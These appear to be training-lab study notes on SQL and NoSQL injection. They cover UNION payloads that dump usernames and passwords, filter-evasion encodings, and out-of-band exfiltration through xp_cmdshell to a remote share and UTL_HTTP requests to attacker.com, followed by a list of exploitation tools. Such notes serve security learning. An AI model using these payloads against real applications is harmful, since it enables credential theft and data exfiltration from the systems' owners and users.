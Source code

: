 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users



NoSQL

user[$ne]=xxxx&pass[$ne]=yyyy


URL Encoding: URL encoding is a common method where characters are represented using a percent (%) sign followed by their ASCII value in hexadecimal. For example, the payload ' OR 1=1-- can be encoded as %27%20OR%201%3D1--. This encoding can help the input pass through web application filters and be decoded by the database, which might not recognise it as malicious during initial processing.
Hexadecimal Encoding: Hexadecimal encoding is another effective technique for constructing SQL queries using hexadecimal values. For instance, the query SELECT * FROM users WHERE name = 'admin' can be encoded as SELECT * FROM users WHERE name = 0x61646d696e. By representing characters as hexadecimal numbers, the attacker can bypass filters that do not decode these values before processing the input.
Unicode Encoding: Unicode encoding represents characters using Unicode escape sequences. For example, the string admin can be encoded as \u0061\u0064\u006d\u0069\u006e. This method can bypass filters that only check for specific ASCII characters, as the database will correctly process the encoded input.

%27 is the URL encoding for the single quote (').
%20 is the URL encoding for a space ( ).
|| represents the SQL OR operator.
%3D is the URL encoding for the equals sign (=).
%2D%2D is the URL encoding for --, which starts a comment in SQL.


No-Quote SQL Injection

No-Quote SQL injection techniques are used when the application filters single or double quotes or escapes.

    Using Numerical Values: One approach is to use numerical values or other data types that do not require quotes. For example, instead of injecting ' OR '1'='1, an attacker can use OR 1=1 in a context where quotes are not necessary. This technique can bypass filters that specifically look for an escape or strip out quotes, allowing the injection to proceed.
    Using SQL Comments: Another method involves using SQL comments to terminate the rest of the query. For instance, the input admin'-- can be transformed into admin--, where the -- signifies the start of a comment in SQL, effectively ignoring the remainder of the SQL statement. This can help bypass filters and prevent syntax errors.
    Using CONCAT() Function: Attackers can use SQL functions like CONCAT() to construct strings without quotes. For example, CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e) constructs the string admin. The CONCAT() function and similar methods allow attackers to build strings without directly using quotes, making it harder for filters to detect and block the payload.

No Spaces Allowed

When spaces are not allowed or are filtered out, various techniques can be used to bypass this restriction.

    Comments to Replace Spaces: One common method is to use SQL comments (/**/) to replace spaces. For example, instead of SELECT * FROM users WHERE name = 'admin', an attacker can use SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'. SQL comments can replace spaces in the query, allowing the payload to bypass filters that remove or block spaces.
    Tab or Newline Characters: Another approach is using tab (\t) or newline (\n) characters as substitutes for spaces. Some filters might allow these characters, enabling the attacker to construct a query like SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'. This technique can bypass filters that specifically look for spaces.
    Alternate Characters: One effective method is using alternative URL-encoded characters representing different types of whitespace, such as %09 (horizontal tab), %0A (line feed), %0C (form feed), %0D (carriage return), and %A0 (non-breaking space). These characters can replace spaces in the payload. 

    The SQL query shows that the spaces are being omitted by code. To bypass these protections, we can use URL-encoded characters that represent different types of whitespace or line breaks, such as %09 (horizontal tab), %0A (line feed). These characters can replace spaces and still be interpreted correctly by the SQL parser.

The original payload 1' OR 1=1 -- can be modified to use newline characters instead of spaces, resulting in the payload 1'%0A||%0A1=1%0A--%27+. This payload constructs the same logical condition as 1' OR 1=1 -- but uses newline characters to bypass the space filter.

Techniques in Different Databases

Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

MySQL and MariaDB

In MySQL or MariaDB, Out-of-band SQL injection can be achieved using SELECT ... INTO OUTFILE or load_file command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

 
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';

        

An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

Microsoft SQL Server (MSSQL)

In MSSQL, Out-of-band SQL injection can be performed using features like xp_cmdshell, which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

 
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';

        

Alternatively, OPENROWSET or BULK INSERT can be used to interact with external data sources, facilitating data exfiltration through OOB channels.

Oracle

In Oracle databases, Out-of-band SQL injection can be executed using the UTL_HTTP or UTL_FILE packages. For instance, the UTL_HTTP package can be used to send HTTP requests with sensitive data:

 
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;

        


SQLMap: SQLMap is an open-source tool that automates the process of detecting and exploiting SQL Injection vulnerabilities in web applications. It supports a wide range of databases and provides extensive options for both identification and exploitation. You can learn more about the tool here.
SQLNinja: SQLNinja is a tool specifically designed to exploit SQL Injection vulnerabilities in web applications that use Microsoft SQL Server as the backend database. It automates various stages of exploitation, including database fingerprinting and data extraction. 
JSQL Injection: A Java library focused on detecting SQL injection vulnerabilities within Java applications. It supports various types of SQL Injection attacks and provides a range of options for extracting data and taking control of the database.
BBQSQL: BBQSQL is a Blind SQL Injection exploitation framework designed to be simple and highly effective for automated exploitation of Blind SQL Injection vulnerabilities.